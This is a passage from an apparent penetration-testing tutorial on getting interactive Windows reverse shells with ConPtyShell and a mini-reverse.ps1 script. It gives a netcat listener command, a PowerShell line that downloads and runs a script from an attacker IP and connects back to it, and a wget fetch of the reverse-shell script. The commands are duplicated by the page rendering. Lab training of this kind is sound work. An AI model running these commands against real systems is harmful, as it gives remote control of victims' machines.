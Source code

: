 As we run the link, the script is downloaded, now we have to transfer this file through python sever.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjD075oOSj_hAoog_zhCL3b_GLm0WfJ1oWzR1Di81k8AajXCtlKU44J_3BXjJ-FXK_PsjCttjkfxPswW-Xmz-_obe8ThIg9IldNKm7E66w1lS8v6Z8RJVxytUKp-jnl6sw8RjUzku0P7UpC9MebyRA41I9Ev5JpXCzUByqBMa4wAp6S5da7PD7xt6cr2w=s16000)

Start a Netcat listener on port 4444 for obtaining a reverse connection.

stty raw -echo; (stty size; cat) | nc -lvnp 4444

stty raw -echo; (stty size; cat) | nc -lvnp 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
stty raw -echo; (stty size; cat) | nc -lvnp 4444
</pre>

**![](https://blogger.googleusercontent.com/img/a/AVvXsEi1HO3kIIppYXy9ZbWN46RRPaDsVbxGkj3BTq1bv3jL3lXwZhi-n13L95MJ_rvdwfBaAPc9rTpmXrcMrYx8JKGBX-5j63bFHFWtVl9kSwvNb1e_mtjHRrSzuCf-OAGpXHteC8BhDnaQnzET_JQP6BP1blAfDxV_RJOqkCJWqLzXAIHjGJ5LWjREADe1xA=s16000)**

Users should enter the following command into the command prompt of the Windows machine. It will help in the execution of the ConPtyShell file.

Remember that the IP address should be your local IP address (Kali IP address).

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.1.3 4444

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.1.3 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.1.3 4444
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjeK2s2JrgedoxFoZR9MPSZvUqIdohCg5CjIhASSsPluq4ZEz1r9Rn9sRyn4ItFON6HObBrMQ5R02rtQODJMgtM8y8DGehbvq8FurludqIKYffXY01yXaBE3q2LwP1nZc2huIU6EWCrHsWFQIiBFAocoF3mSw_ztDn46y2Rnhgmk7Qb9KLq6Bv6E1A1sA=s16000)

We can see that the pseudo function is created and we get a fully interactive shell once the command is used.

![](https://blogger.googleusercontent.com/img/a/AVvXsEh6UAPNanFeGZFnezOKcugh3A6EFd0k5tI4GzcPmWGFWJaYYv_qgFFpLpDuv_-NQSkNI28SD5Z9YDQyWGCIs8am-OPHYSiKlgp_uc-oRgxEWOs6wuIfJHiCDiizAF4A_rITckYBwI4gyVDQaZdpwMDR9ULjkzO1e8opnqFlVaukldOdlzzqp6JmQhSYHw=s16000)

### mini-reverse.ps1

Using the small mini-reverse script, we will obtain a reverse shell.

This website, which is listed below, must be visited, and because it is a Github website, we must download the link.

wget https://gist.githubusercontent.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1
